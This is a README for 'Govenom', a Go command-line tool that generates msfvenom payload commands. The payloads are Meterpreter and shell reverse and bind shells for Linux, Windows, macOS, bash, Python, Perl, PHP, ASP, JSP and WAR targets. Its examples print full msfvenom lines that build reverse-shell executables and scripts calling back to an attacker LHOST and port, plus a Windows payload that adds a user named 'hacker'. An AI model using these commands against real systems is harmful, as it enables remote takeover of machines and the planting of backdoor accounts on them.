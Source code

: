 # Govenom
[![forthebadge](https://forthebadge.com/images/badges/made-with-go.svg)](https://forthebadge.com) [![forthebadge](https://forthebadge.com/images/badges/you-didnt-ask-for-this.svg)](https://forthebadge.com)

Generate MSFVenom shells in command line :)

## Usage
This panel appears when typing `./Govenom -h` :
```
USAGE:
   Govenom [global options] command [command options] [arguments...]

COMMANDS:
   linux    Generate Linux Meterpreter reverse/bind shell x86 multi stage :)
   windows  Generate Windows Meterpreter muti shells :)
   macos    Generate MacOS Meterpreter reverse/bind shells :)
   bash     Generate a Bash reverse shell
   python   Generate a Python reverse shell
   perl     Generate a Perl reverse shell
   asp      Generate a ASP Meterpreter shell
   jsp      Generate a Jsp reverse shell
   war      Generate a War reverse shell
   php      Generate a PHP reverse shells
   help, h  Shows a list of commands or help for one command

GLOBAL OPTIONS:
   --help, -h  show help
```

## Examples
It is possible to provide the attacker IP address and listening port with the flags `-lhost` and `-port`.
```
# ./Govenom bash -lhost 1.2.3.4 -port 4444                                                                                                                                                          
Govenom - (c)2021 - arch3rPro 
Note that you need to generate a listener by msfconsole on your attack Host !

msfvenom -p cmd/unix/reverse_bash LHOST=1.2.3.4 LPORT=4444 -f raw > shell.sh 
```
```
# ./Govenom  windows
Govenom - (c)2021 - arch3rPro 
Note that you need to generate a listener by msfconsole on your attack Host !

 #1   Windows Meterpreter reverse shell: msfvenom -p windows/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f exe > shell.exe 
 #2   Windows Meterpreter http reverse shell: msfvenom -p windows/meterpreter_reverse_http LHOST=127.0.0.1 LPORT=4444 HttpUserAgent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36" -f exe > shell.exe 
 #3   Windows Meterpreter bind shell: msfvenom -p windows/meterpreter/bind_tcp RHOST= 192.168.1.1 LPORT=4444 -f exe > shell.exe 
 #4   Windows CMD Multi Stage: msfvenom -p windows/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f exe > shell.exe 
 #5   Windows add user: msfvenom -p windows/adduser USER=hacker PASS=password -f exe > useradd.exe
```

## Thanks
* [goshell](https://github.com/eze-kiel/goshell) - Generate reverse shells in command line with Go ! 
